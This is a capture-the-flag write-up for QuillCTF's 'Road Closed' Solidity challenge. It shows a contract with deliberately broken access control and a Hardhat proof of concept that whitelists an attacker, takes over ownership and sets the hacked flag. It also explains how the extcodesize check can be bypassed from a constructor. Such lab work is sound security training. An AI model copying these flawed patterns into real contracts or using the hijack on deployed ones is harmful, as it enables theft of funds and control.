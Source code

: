 # QuillCTF 1: Road Closed

**Objective of CTF:**

- Become the owner of the contract.
- Change the value of hacked to `true`.

**Target contract:**

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.7;

contract RoadClosed {
  bool hacked;
  address owner;
  address pwner;
  mapping(address => bool) whitelistedMinters;

  function isContract(address addr) public view returns (bool) {
    uint size;
    assembly {
      size := extcodesize(addr)
    }
    return size > 0;
  }

  function isOwner() public view returns (bool) {
    if (msg.sender == owner) {
      return true;
    } else return false;
  }

  constructor() {
    owner = msg.sender;
  }

  function addToWhitelist(address addr) public {
    require(!isContract(addr), "Contracts are not allowed");
    whitelistedMinters[addr] = true;
  }

  function changeOwner(address addr) public {
    require(whitelistedMinters[addr], "You are not whitelisted");
    require(msg.sender == addr, "address must be msg.sender");
    require(addr != address(0), "Zero address");
    owner = addr;
  }

  function pwn(address addr) external payable {
    require(!isContract(msg.sender), "Contracts are not allowed");
    require(msg.sender == addr, "address must be msg.sender");
    require(msg.sender == owner, "Must be owner");
    hacked = true;
  }

  function pwn() external payable {
    require(msg.sender == pwner);
    hacked = true;
  }

  function isHacked() public view returns (bool) {
    return hacked;
  }
}
```

## The Attack

We can immediately see that non-contract accounts can whitelist themselves via the `addToWhitelist` function. A whitelisted account can become the owner simply by calling the `changeOwner` function. Once an account becomes the owner, all that is left to do is call the `pwn` function, and the contract will have `hacked = true`. In short:

1. `addToWhitelist(yourAddress)`
2. `changeOwner(yourAddress)`
3. `pwn(yourAddress)`

As an extra note, you can do this hack with a contract if you execute everything within the constructor, because `extcodesize` of a contract at it's constructor phase will return 0.

## Proof of Concept

The Hardhat test code to demonstrate this attack is given below. Contract types are generated via TypeChain.

```typescript
describe('QuillCTF 1: Road Closed', () => {
  let owner: SignerWithAddress;
  let attacker: SignerWithAddress;

  let contract: RoadClosed;

  before(async () => {
    [owner, attacker] = await ethers.getSigners();
    contract = await ethers.getContractFactory('RoadClosed', owner).then(f => f.deploy());
    await contract.deployed();
  });

  it('should hijack ownership', async () => {
    expect(await contract.isOwner()).to.be.true;

    // use attacker's pov for the contract
    contract = contract.connect(attacker);

    // whitelist yourself
    await contract.connect(attacker).addToWhitelist(attacker.address);

    // change owner
    await contract.connect(attacker).changeOwner(attacker.address);

    // pwn
    await contract.connect(attacker)['pwn(address)'](attacker.address);
  });

  after(async () => {
    // contract should be hacked & you should be the owner
    expect(await contract.isHacked()).to.be.true;
    expect(await contract.isOwner()).to.be.true;
  });
});
```
